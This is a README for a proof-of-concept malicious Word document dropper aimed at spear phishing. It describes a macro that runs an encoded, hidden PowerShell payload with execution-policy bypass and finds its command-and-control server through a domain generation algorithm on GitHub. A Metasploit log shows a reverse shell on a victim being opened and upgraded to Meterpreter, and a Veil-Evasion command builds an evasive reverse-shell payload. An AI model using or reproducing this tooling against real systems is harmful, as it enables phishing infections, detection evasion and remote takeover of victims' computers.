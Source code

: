 # DocDropper

## Reboot Spear Phishing

#### Notice

DocDropper (POC+) is a .doc file dropper. You can start from it to setup Meterpreter, Empire, etc.

Indeed, DocDropper use a PowerShell Dynamic Generation Algorithm (DGA) to find a C&C hosted on Github.com.

Begin by `./dropper/vector.payload.ps1` is the encoded payload in the active Macro.

Next, `./stub/pwn.ps1` is the main payload to execute during infection


```
powershell.exe -ExecutionPolicy Bypass -WindowStyle hidden -encodedCommand [code]
```

## Reminder

#### Cmd.exe to Meterpreter

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.21
LHOST => 192.168.0.21
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.0.21:4444 
[*] Starting the payload handler...
msf exploit(handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.0.19
[*] Command shell session 1 opened (192.168.0.21:4444 -> 192.168.0.19:59134) at 2015-10-29 22:35:53 +0100

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.0.21:4444 -> 192.168.0.19:59134 (192.168.0.19)

msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse handler on 192.168.0.21:4433 
[*] Starting the payload handler...
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
[*] Command stager progress: 3.33% (3398/102108 bytes)
[...]
[*] Command stager progress: 99.78% (101888/102108 bytes)
[*] Command stager progress: 100.00% (102108/102108 bytes)
```

#### Veil-Evasion Meterpreter

```
veil-evasion -p c/meterpreter/rev_tcp -c LHOST=192.168.0.21 LPORT=4444
```
